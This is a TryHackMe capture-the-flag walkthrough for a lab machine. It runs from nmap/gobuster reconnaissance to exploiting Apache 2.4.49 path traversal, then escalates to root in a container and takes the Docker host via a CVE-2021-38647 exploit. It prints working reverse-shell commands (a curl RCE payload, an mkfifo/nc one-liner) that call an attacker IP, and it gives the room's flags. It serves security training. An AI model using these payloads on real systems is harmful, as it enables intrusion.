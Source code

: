 # Bebop Walkthrough
### Link
- https://tryhackme.com/room/ohmyweb
---
### Recon
```
nmap -sC -sC -Pn [IP]
```
**Namp scan result**
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-14 21:20 EDT
Nmap scan report for 10.10.139.186
Host is up (0.098s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.47 seconds
```
Let's check the webpage http://[IP]. We arrive to a static webpage.
```
sudo gobuster dir -u http://[IP] -w ~/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt
```
**Gobuster scan result**
```

```
We have found two reporteries **cgi** and **assets** and from the nmap scan, we know this server is based on **Apache 2.4.49**

Quick check on [exploit-db](https://www.exploit-db.com/exploits/50383) --> Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
---
### Exploit

Quick search on internet and I found that: [rce](https://www.exploit-db.com/exploits/50383). From this exploit, let's create a reverse shell.

Start a listener
```
nc -nlvp 4646
```
Execute the exploit
```
curl 'http://10.10.139.186/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.6.96.167/4646 0>&1'
```
Result into the listener:
```
% nc -nlvp 4646
Connection from 10.10.139.186:44638
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$ whoami
whoami
daemon
```

Run the following to get root in the container:
```
/usr/bin/python3.7 -c ‘import os; os.setuid(0); os.system(“/bin/bash”);’
```
```
daemon@4a70924bafa0:/$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
root@4a70924bafa0:/# whoami
whoami
root
root@4a70924bafa0:/# cd root
cd root
root@4a70924bafa0:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 Oct  8 05:47 user.txt
root@4a70924bafa0:/root# cat user.txt
cat user.txt
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
**Question**
#### user.txt 
**Answer** 
#### THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
---
### Privilege Escalation

- First: Few enumeration around the target machine
```
root@4a70924bafa0:/root# netstat -tulpn
netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
root@4a70924bafa0:/root# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 180711  bytes 20493915 (19.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 95915  bytes 39235223 (37.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
``` 
We found the IP 172.17.0.1. Maybe the asset which run the Docker. Let's Upload nmap into the machine and perform a quick enumeration ^^
```
./nmap -sT -p- 172.17.0.1

Host is up (0.0044s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:19:6E:E8:C1 (Unknown)
```
After a quick serahc on internet、I found this [CVE](https://github.com/AlteredSecurity/CVE-2021-38647)

- First : Download the exploit
```
 wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
--2022-03-14 21:59:09--  https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5246 (5.1K) [text/plain]
Saving to: ‘CVE-2021-38647.py’

CVE-2021-38647.py         100%[==================================>]   5.12K  --.-KB/s    in 0s

2022-03-14 21:59:10 (13.5 MB/s) - ‘CVE-2021-38647.py’ saved [5246/5246]
```
- Second: Create a web server to be able to download the exploit
```
python3 -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
::ffff:10.10.139.186 - - [14/Mar/2022 22:01:43] code 404, message File not found
::ffff:10.10.139.186 - - [14/Mar/2022 22:01:43] "GET /exploit.py HTTP/1.1" 404 -
```

- Third: Download the exploit
```
curl http://10.6.96.167:8080/CVE-2021-38647.py -o exploit.py
<://10.6.96.167:8080/CVE-2021-38647.py -o exploit.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5243  100  5243    0     0  19065      0 --:--:-- --:--:-- --:--:-- 18996
```
- Fourth: start a new listener
```
nc -nlvp 4647
```
- Fifth: Use the exploit
```
root@4a70924bafa0:/root# python3 exploit.py -t 172.17.0.1 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.6.96.167 4647  >/tmp/f"
<t /tmp/f|bash -i 2>&1|nc 10.6.96.167 4647  >/tmp/f"
```
- Sixth: Listener result
```
root@ubuntu:/var/opt/microsoft/scx/tmp# cat /root/root.txt
cat /root/root.txt
THM{7f147ef1f36da9ae29529890a1b6011f}
```
**Question**
#### root.txt
**Answer** 
#### THM{7f147ef1f36da9ae29529890a1b6011f}

